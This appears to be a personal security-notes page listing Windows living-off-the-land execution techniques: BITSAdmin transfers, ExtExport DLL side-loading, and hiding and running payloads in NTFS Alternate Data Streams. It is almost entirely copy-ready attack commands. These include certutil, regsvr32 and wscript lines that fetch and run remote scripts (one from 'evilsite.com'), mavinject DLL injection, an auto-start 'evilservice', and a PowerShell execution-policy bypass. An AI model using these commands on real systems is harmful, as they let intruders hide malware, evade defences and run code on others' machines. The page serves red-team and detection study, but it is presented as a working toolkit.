 ```yaml
---
title: "Code Execution"
date: 2020-07-17T20:59:33+02:00
draft: false
---
```


#### LOLBAS (Living Off The Land Binaries and Scripts)
https://lolbas-project.github.io/


#### BITSAdmin
Mostly depricated, but still included in Winows. Many features of BITSAdmin. Originally 
Download a file:
```
$ bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>
```
```
$ bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
Copy a file:
```
$ bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset
```
Execute a file:
```
$ bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```


#### ExtExport.exe
Bundles with Internet Explorer that can load DLL's named in one of the following names:
* mozcrt19.dll
* mozsqlite3.dll
* sqlite3.dll

An attacker can abuse this tool by passing it a path ("C:\test" in the below example) where a malicious DLL is stored.
```
$ Extexport.exe c:\test foo bar
```

ExtExport.exe will then side-load it and the embedded payload will be executed.


#### ADS (Alternate Data Streams)
An Alternate Data Stream is a little-known feature of the NTFS file system. It has the ability of forking data into an existing file without changing its file size or functionality.

Hiding files in ADS:
```
$ type <filepath> <target_file:ads>
```
Executing files from ADS:
```
$ <command> <target_file:ads> [arguments]
```
ADS can be used in a variaty of methods:

##### Add content to ADS
```
$ type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
$ extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
$ findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe
$ certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
$ makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
$ print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe
$ reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
$ regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
$ expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
$ esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o
$ powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"
$ curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe
$ cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat
$ "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe" -DownloadFile -url https://www.7-zip.org/a/7z1900.exe -path c:\\temp\\1.txt:7-zip.exe
```

##### Extract content from ADS
```expand c:\ads\file.txt:test.exe c:\temp\evil.exe```
```esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o```

##### Executing the ADS content

WMIC

```wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"' ```

Rundll32

```rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain```
```rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll```
```rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll```

Cscript

```cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"```

Wscript

```wscript c:\ads\file.txt:script.vbs```
```echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js```

Forfiles

```forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"```

Mavinject.exe

```
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
```

MSHTA

```mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"```
(Does not work on Windows 10 1903 and newer)

Control.exe

```control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll```

Create service and run

```
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
```

Powershell.exe

```powershell -ep bypass - < c:\temp:ttt```
```powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"```
```Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}```

Regedit.exe

```regedit c:\ads\file.txt:regfile.reg```

Bitsadmin.exe

```
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

AppVLP.exe

```AppVLP.exe c:\windows\tracing\test.txt:ha.exe```

Cmd.exe

```cmd.exe - < fakefile.doc:reg32.bat```

Ftp.exe

```ftp -s:fakefile.txt:aaaa.txt```

ieframe.dll , shdocvw.dll (ads)

```
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
```

bash.exe

```
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
```

Regsvr32

```
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```

##### Write registry
```regini.exe file.txt:hidden.ini```

#### References
https://labs.f-secure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-1
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
